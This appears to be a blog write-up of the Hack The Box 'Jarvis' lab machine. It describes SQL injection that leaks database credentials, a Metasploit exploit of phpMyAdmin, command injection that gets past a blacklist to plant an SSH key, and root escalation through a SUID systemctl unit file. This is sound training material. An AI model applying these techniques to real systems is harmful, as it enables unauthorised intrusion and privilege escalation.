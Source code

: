 ```yaml
---
layout: post
title: "Hack The Box: Jarvis write-up"
date: 2019-07-04
excerpt: "Jarvis from Iron Man? Hack the box? Really cool machine with a nice lateral movement based on a Python script plus a nice lesson on linux systemctl! Not to be missed..."
tags: [Hack The Box, Pentesting, Pivoting,  Python,  SQL, Permissions]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/Jarvis/images/header.png
---
```


# Hack The Box: Jarvis machine write-up

Jarvis was one of the funniest and most interesting machines I've done so far. I learned a lot from it. It starts with a SQL injection that can be exploited to obtain some credentials, which are then used to log in to a phpmyadmin panel. Then, the version used is vulnerable, so we can gain command execution as ``www-data``. After that, it's possible to pivot to the user ``pepper`` by running encapsulation commands on a script run as that user. Finally, in order to escalate to root we just need to enumerate SUID binaries and find out that ``systemctl`` is one of those (which is not normal).

Let's start! The IP of the machine is ``10.10.10.143``.

### Enumeration

As always, we start by enumerating open ports to discover the services running in the machine. I fire up nmap:

*Result of nmap scan*

```sh
# Nmap 7.70 scan initiated Sun Jun 30 18:12:38 2019 as: nmap -p- -sV -sC -oN nmap/initial 10.10.10.143
Nmap scan report for supersecurehotel.htb (10.10.10.143)
Host is up (0.047s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 30 18:26:53 2019 -- 1 IP address (1 host up) scanned in 855.12 seconds
```

We can see different things: SSH on the usual port and two http servers on port 80 and 64999. I started by taking a look at port 80 and didn't even need to look at 64999 to root the box, so it was probably a rabbit hole.

#### Port 80 enumeration

We can see that we are going to deal with a hotel booking website. So, I immediately started up DirBuster to run in the background while I tinkered around manually looking at the functionality.

DirBuster didn't find many things, only that there was a phpmyadmin panel under ``/phpmyadmin``. The report can be found [here](/assets/posts_details/Jarvis/files/DirBusterReport.txt).

*Website found on port 80*

![Img](/assets/posts_details/Jarvis/images/website.png)

Manually I bumped into this interesting parameter, which was vulnerable to SQL injection. So I fired up sqlmap and it dumped the database and some credentials:

*``code`` parameter vulnerable*

![Img](/assets/posts_details/Jarvis/images/param.png)

*sqlmap result: ``user`` table from ``mysql`` db*

![Img](/assets/posts_details/Jarvis/images/sqlmap.png)

We can see there is a ``user`` and ``password`` column:

*Obtained credentials*

![Img](/assets/posts_details/Jarvis/images/sqlmap_out.png)

Good! We have the following credentials: ``DBadmin:imissyou``.

#### Gaining a shell

With the creds we can access the phpmyadmin panel and upon inspecting the version we find out it's vulnerable:

*Vulnerable version 4.8.0*

![Img](/assets/posts_details/Jarvis/images/phpmyadmin.png)

Using metasploit:

![Img](/assets/posts_details/Jarvis/images/info1.png)

![Img](/assets/posts_details/Jarvis/images/info2.png)

We can see that the version 4.8.0 and 4.8.1 are vulnerable, so we can immediately set the options and exploit!

*Setting the options and getting a proper shell with python*

![Img](/assets/posts_details/Jarvis/images/metasploit.png)

![Img](/assets/posts_details/Jarvis/images/shell.png)

#### From ``www-data`` to ``pepper``

Once there I started enumerating with the usual ``sudo -l`` and found something really juicy, a python script I could run as ``pepper`` (the user account on the box).

*Output of ``sudo -l``*

![Img](/assets/posts_details/Jarvis/images/sudol.png)

I checked the contents of the [script](/assets/posts_details/Jarvis/files/simpler.py) and found this interesting and dangerous functionality:

```py
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Obviously we need to bypass that blacklist. That is really easy with commands encapsulation: $(command).

My idea was the following: getting a pair of SSH keys, then via the command injection copy my public key to ``.ssh/authorized_keys`` and then just log in through SSH. Simple!

1. I generated the keys with ``ssh-keygen``.
2. I copy my public key key to ``/tmp/mykey``.
3. I copy ``/tmp/mykey`` into ``/home/pepper/.ssh/authorized_keys``. We need to add the ``-p`` option to the script to call that function and remember to add the ``sudo -u pepper`` at the beginning to run as that user.
4. I log in through SSH and can read ``user.txt``.

*Steps above visualized*

![Img](/assets/posts_details/Jarvis/images/steps.png)

![Img](/assets/posts_details/Jarvis/images/ssh.png)

#### From ``pepper`` to ``root``

This privilege escalation was one of the best I've come across so far. It turned out to be simple yet a great learning curve.

I ran the usual enumeration tool, ``LinEnum.sh``, and searched manually for SUID executables to find that ``/bin/systemctl`` was one. If you don't know what a SUID executable means I recommend you read this [article](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/).

As that is not usual, I thought that was the misconfiguration that would give me root. So I created a service from a template like this:

*s.service*

```
[Unit]
Description=TEST

[Service]
ExecStart=/bin/cat /root/root.txt > /tmp/myHASH

[Install]
WantedBy=multi-user.target

```

However, there was a problem: neither``/bin/systemd`` nor ``/etc/systemd`` were writeable. After researching I found out that there exists the `link` option, which basically lets us run it as if it was in the directory.

I ran the following:

```
systemctl link /tmp/s.service
systemctl start s
```

However, no file appeared in the ``/tmp`` directory. I checked the status and it turns out there was an error with which I got the flag (lol):

*Getting root hash*

![Img](/assets/posts_details/Jarvis/images/failed1.png)

However, I was bothered, so I tried to make it work by runnning instead a bash file. So I created a file named ``script.sh`` (creative, I know) with the following contents:

```sh
#!/bin/sh -
/bin/cat /root/root.txt > /tmp/test.txt
```

At first I forgot the first line and that's why there is an error on the next image. After adding it everything ran smoothly and I got my ``test.txt``.

*Making the service work with a bash script*

![Img](/assets/posts_details/Jarvis/images/success1.png)

I was still bothered for not making it work without a bash script so I came up with the idea of using ``/bin/sh -c ´command´`` in the ``ExecStart`` field of the service. And it worked!

*Making the service work without a bash script*

![Img](/assets/posts_details/Jarvis/images/success2.png)

Of course, I could have set up a listener on netcat and then executed a reverse shell instead of just using ``cat`` or ``cp``.

I hope you learned as much as I did! Until next time!

---

*Diego Bernal Adelantado*
